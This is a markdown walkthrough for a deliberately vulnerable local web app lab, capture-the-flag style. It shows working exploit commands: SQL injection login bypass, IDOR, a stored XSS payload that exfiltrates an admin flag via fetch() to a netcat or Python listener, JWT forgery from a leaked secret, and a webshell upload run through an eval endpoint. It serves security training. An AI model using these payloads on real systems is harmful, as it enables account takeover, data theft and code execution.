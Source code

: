 # walkthrough.md

> ?? These instructions are for controlled lab validation only. Do not use the techniques outside the sandbox.

## 0. Environment Prep
- Install dependencies and seed the DB (`npm install && npm run init-db`) or run `docker compose up --build`.
- All examples assume the app listens on `http://localhost:3000`.
- Use a fresh terminal for `curl` commands and keep cookies in `cookies.txt` so we can reuse sessions.

## 1. Easy Flag (`THM{flag_easy_2025}`)
```bash
curl http://localhost:3000/public/flag_easy.txt
```

**Burp tip:** Proxy a simple GET request to `/public/flag_easy.txt` and view the raw response body.

## 2. SQL Injection ? Alice secret note (`THM{flag_sql_2025}`)
1. Exploit the `POST /login` query by commenting out the password check:
   ```bash
   curl -i -c cookies.txt -X POST http://localhost:3000/login \
     -d "username=alice' -- " \
     -d "password=ignored"
   ```
   The response sets a session cookie even though the password was wrong.
2. Visit the homepage with the stolen session and read the secret note exposed for the logged-in user:
   ```bash
   curl -b cookies.txt http://localhost:3000/
   ```
   Look for `THM{flag_sql_2025}` in the HTML.

**Burp alternative:**
- Intercept the login POST, change the username field to `alice' -- `, forward the request, and then load `/` while replaying the issued cookie via Burp's Repeater to confirm the flag appears.

## 3. IDOR on Orders (`THM{flag_idor_2025}`)
With the same low-privilege cookie from step 2:
```bash
curl -b cookies.txt http://localhost:3000/orders/2
```
The response echoes Bob's confidential order containing `THM{flag_idor_2025}`.

**Burp tip:** Send `/orders/1` to Repeater, duplicate the tab, change the path to `/orders/2`, and observe the flag in the response while still using Alice's cookie.

## 4. Stored XSS ? Admin flag (`THM{flag_xss_2025}`)
1. Start a simple listener to capture the exfiltrated flag (choose one):
   ```bash
   # Option A: Python
   python3 -m http.server 9000
   # Option B: Netcat
   nc -lv 9000
   ```
2. Post a malicious comment that steals the hidden admin flag when an admin views `/admin/messages`:
   ```bash
   curl -b cookies.txt -X POST http://localhost:3000/comments \
     --data-urlencode "content=<script>fetch('http://127.0.0.1:9000/?flag=' + encodeURIComponent(document.getElementById('admin-flag').innerText))</script>"
   ```
3. In a separate browser (or new cookie jar), log in as the real admin (`admin/adminpass`) and visit `http://localhost:3000/admin/messages` to trigger the payload.
4. Watch the listener output; you should see the request containing `THM{flag_xss_2025}` in the query string.

**Burp note:** You can replay the stored payload from step 2 via Burp's Repeater to confirm it persists, then browse `/admin/messages` with a valid admin cookie to execute it.

## 5. RCE Chain ? Admin secret (`THM{flag_admin_2025}`)
We demonstrate both token forgery and the upload->exec vector.

### 5a. Leak `JWT_SECRET` and forge an admin cookie
1. Abuse the config leak:
   ```bash
   curl -b cookies.txt "http://localhost:3000/config?debug=1"
   ```
   Note `JWT_SECRET` (default `THIS_IS_SECRET_FOR_LAB`).
2. Forge an admin JWT using Node.
   - **Bash / zsh:**
     ```bash
     TOKEN=$(node -e "console.log(require('jsonwebtoken').sign({id:3, username:'admin', role:'admin'}, 'THIS_IS_SECRET_FOR_LAB'))")
     echo $TOKEN
     ```
   - **PowerShell:**
     ```powershell
     $TOKEN = node -e "console.log(require('jsonwebtoken').sign({id:3, username:'admin', role:'admin'}, 'THIS_IS_SECRET_FOR_LAB'))"
     $TOKEN = $TOKEN.Trim()
     $TOKEN
     ```
3. Use the forged cookie to grab the final flag:
   ```bash
   curl -H "Cookie: token=$TOKEN" http://localhost:3000/admin/secret.txt
   ```
   The body returns `THM{flag_admin_2025}`.

### 5b. Insecure upload + `eval` execution
1. Craft a JavaScript payload that reads the secret file.
   - **Bash / zsh:**
     ```bash
     cat <<'EOF' > webshell.js
     (() => {
       const fs = require('fs');
       return fs.readFileSync('admin/secret.txt', 'utf8');
     })()
     EOF
     ```
   - **PowerShell:**
     ```powershell
     @'
     (() => {
       const fs = require('fs');
       return fs.readFileSync('admin/secret.txt', 'utf8');
     })()
     '@ | Set-Content -Path webshell.js
     ```
2. Upload it while authenticated as any user (Alice session works):
   ```bash
   curl -b cookies.txt -F "file=@webshell.js" http://localhost:3000/upload
   ```
3. Execute the uploaded payload via the lab-only endpoint:
   ```bash
   curl -b cookies.txt "http://localhost:3000/uploads/exec?file=webshell.js"
   ```
   The response prints the flag.

**Burp tip:** Use the Proxy to capture an upload request, swap the payload for the RCE shell, then invoke `/uploads/exec` with Burp Repeater to observe the response.

## Cleanup
- Delete `cookies.txt`, uploaded payloads in `public/uploads/`, and rerun `npm run init-db` for a fresh lab instance.
- Stop any helper listeners you started (Python HTTP server or netcat).
